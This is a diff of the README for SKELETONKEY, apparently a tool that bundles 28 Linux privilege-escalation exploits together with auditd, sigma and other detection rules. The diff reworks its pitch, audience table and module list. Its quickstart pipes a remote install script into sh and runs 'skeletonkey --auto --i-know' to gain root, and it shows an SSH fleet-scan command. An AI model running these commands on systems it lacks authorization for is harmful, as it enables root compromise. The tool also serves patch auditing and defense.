

Before and after one commit to KaraZajac/SKELETONKEY, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -5,62 +5,82 @@
 [![Modules](https://img.shields.io/badge/modules-28-brightgreen.svg)](CVES.md)
 [![Platform: Linux](https://img.shields.io/badge/platform-linux-lightgrey.svg)](#)
 
-> **One curated binary. Twenty-eight Linux LPE exploits from 2016 → 2026.
-> Detection rules in the box. One command picks the safest one and runs it.**
+> **One curated binary. 28 Linux LPE exploits, 2016 → 2026. Detection
+> rules in the box. One command picks the safest one and runs it.**
 
 ```bash
 curl -sSL https://github.com/KaraZajac/SKELETONKEY/releases/latest/download/install.sh | sh \
   && skeletonkey --auto --i-know
 ```
 
-**For red teams:** stop curating dead PoC repos. `skeletonkey --scan`
-tells you what works; `--auto` picks the safest one and pops shell.
+> ⚠️ **Authorized testing only.** SKELETONKEY runs real exploits. By
+> using it you assert you have explicit authorization to test the
+> target system. See [`docs/ETHICS.md`](docs/ETHICS.md).
 
-**For sysadmins:** run it on your fleet (or in CI) to know which boxes
-still need patching — same binary, same rules, no third-party SaaS.
+## Why use this
 
-**For blue teams:** every module ships matching auditd + sigma rules.
-`skeletonkey --detect-rules --format=auditd | sudo tee /etc/audit/rules.d/99-skeletonkey.rules`
-gets you SIEM coverage for every CVE in the corpus.
+Most Linux privesc tooling is broken in one of three ways:
 
-> ⚠️ **Authorized testing only.** SKELETONKEY is a research and red-team
-> tool. By using it you assert you have explicit authorization to test
-> the target system. See [`docs/ETHICS.md`](docs/ETHICS.md).
+- **`linux-exploit-suggester` / `linpeas`** — tell you what *might*
+  work, run nothing
+- **`auto-root-exploit` / `kernelpop`** — bundle exploits but ship
+  no detection signatures and went stale years ago
+- **Per-CVE PoC repos** — one author, one distro, abandoned within
+  months
+
+SKELETONKEY is one binary, actively maintained, with detection rules
+for every CVE in the bundle — same project for red and blue teams.
+
+## Who it's for
+
+| Audience | What you get |
+|---|---|
+| **Red team / pentesters** | One tested binary. `--auto` ranks vulnerable modules by safety and runs the safest. Honest scope reporting — never claims root it didn't actually get. |
+| **Sysadmins** | `skeletonkey --scan` (no sudo needed) tells you which boxes still need patching. Fleet-scan tool included. JSON output for CI gates. |
+| **Blue team / SOC** | Auditd + sigma + yara + falco rules for every CVE. `--detect-rules --format=auditd \| sudo tee …` ships SIEM coverage in one command. |
+| **CTF / training** | Reproducible LPE environment with public CVEs across a 10-year timeline. Each module documents the bug, the trigger, and the fix. |
+
+## Corpus at a glance
+
+**28 modules** spanning the 2016 → 2026 LPE timeline:
+
+| Tier | Count | What it means |
+|---|---|---|
+| 🟢 Full chain | **14** | Lands root (or its canonical capability) end-to-end. No per-kernel offsets needed. |
+| 🟡 Primitive | **14** | Fires the kernel primitive + grooms the slab + records a witness. Default returns `EXPLOIT_FAIL` honestly. Pass `--full-chain` to engage the shared `modprobe_path` finisher (needs offsets — see [`docs/OFFSETS.md`](docs/OFFSETS.md)). |
+
+**🟢 Modules that land root on a vulnerable host:**
+copy_fail family ×5 · dirty_pipe · dirty_cow · pwnkit · overlayfs
+(CVE-2021-3493) · overlayfs_setuid (CVE-2023-0386) ·
+cgroup_release_agent · ptrace_traceme · sudoedit_editor · entrybleed
+(KASLR leak primitive)
+
+**🟡 Modules with opt-in `--full-chain`:**
+af_packet · af_packet2 · af_unix_gc · cls_route4 · fuse_legacy ·
+nf_tables · nft_set_uaf · nft_fwd_dup · nft_payload ·
+netfilter_xtcompat · stackrot · sudo_samedit · sequoia · vmwgfx
+
+See [`CVES.md`](CVES.md) for per-module CVE, kernel range, and
+detection status.
 
 ## Quickstart
 
 ```bash
-# One-shot install (x86_64 / arm64; checksum-verified)
+# Install (x86_64 / arm64; checksum-verified)
 curl -sSL https://github.com/KaraZajac/SKELETONKEY/releases/latest/download/install.sh | sh
-```
 
-### One-command root (sysadmins / red-team)
-
-```bash
-curl -sSL https://github.com/KaraZajac/SKELETONKEY/releases/latest/download/install.sh | sh \
-  && skeletonkey --auto --i-know
-```
-
-`--auto` scans every bundled module's `detect()`, ranks the vulnerable
-ones by **exploit safety** (structural escapes first, page-cache writes
-next, kernel primitives, kernel races last), and runs the safest one.
-If it fails, it suggests the next candidates. Authorized testing only.
-
-**skeletonkey runs as a normal unprivileged user** — that's the whole
-point. `--scan`, `--audit`, `--exploit`, and `--detect-rules` all
-work without `sudo`. Only `--mitigate` and rule-file installation
-write to root-owned paths.
-
-```bash
 # What's this box vulnerable to?  (no sudo)
 skeletonkey --scan
 
-# Broader system hygiene (setuid binaries, world-writable, capabilities, sudo)
-skeletonkey --audit
+# Pick the safest LPE and run it
+skeletonkey --auto --i-know
 
-# Deploy detection rules (needs sudo to write /etc/audit/rules.d/)
-skeletonkey --detect-rules --format=auditd | sudo tee /etc/audit/rules.d/99-skeletonkey.rules
+# Deploy detection rules (needs sudo to write into /etc/audit/rules.d/)
+skeletonkey --detect-rules --format=auditd \
+  | sudo tee /etc/audit/rules.d/99-skeletonkey.rules
 
-# Apply temporary mitigations (needs sudo for modprobe.d + sysctl)
-sudo skeletonkey --mitigate copy_fail
+# Fleet scan — many hosts via SSH, aggregated JSON for SIEM
+./tools/skeletonkey-fleet-scan.sh --binary skeletonkey \
+  --ssh-key ~/.ssh/id_rsa hosts.txt
+```
 
````
Also changed, not shown: other parts of README.md (+72 -89 lines).
